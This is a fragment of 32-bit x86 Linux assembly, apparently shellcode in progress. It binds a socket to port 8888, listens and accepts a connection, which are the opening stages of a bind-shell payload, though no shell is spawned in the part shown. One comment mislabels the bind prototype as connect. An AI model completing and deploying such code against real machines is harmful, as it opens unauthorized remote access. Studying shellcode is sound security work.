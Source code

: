 ```

int 0x80
mov edi, eax ; save socket fd into edi (eax may change!)

;###bind###

;struct sockaddr_in {
;	unsigned short  sin_family;     /*  Internet protocol (AF_INET) */
;	unsigned short  sin_port;       /* Address port (16 bits) */
;	struct in_addr sin_addr;        /*  Internet address (32 bits) */
;	char sin_zero[8];               /* Not used */
;};
;
;struct in_addr {
;	unsigned long s_addr;  // load with inet_aton()
;};
push 0x0101017f 
push word 0xb822 ; sin_port=8888 
push word 0x02

mov esi, esp ;save the pointer to the struct in esi

;bind syscall
;int connect(int socket, struct sockaddr *foreignAddress, unsigned int addressLength)
xor eax, eax
mov al, 0x66 ;socketcall
xor ebx, ebx
mov bl, 0x02 ;bind

push 0x10 ;addressLength=16bytes. short+short+8+long=2+2+8+4=16
push esi ;address of the struct 
push edi ;socket fd

mov ecx, esp ;pass the pointer to the list of arguments to ecx
int 0x80

;###listen###
xor eax, eax
push eax
mov al, 0x66 ;socketcall
xor ebx, ebx
mov bl, 0x04 ;listen function
push edi

mov ecx, esp
int 0x80

;###accept###
xor eax, eax
xor ebx, ebx
xor ecx, ecx
push eax ;NULL
push eax ;NULL
push edi

mov al, 0x66 ;socketcall
mov bl, 0x05 ;accept function

mov ecx, esp
int 0x80

mov esi, eax ;save the client socket fd into esi

```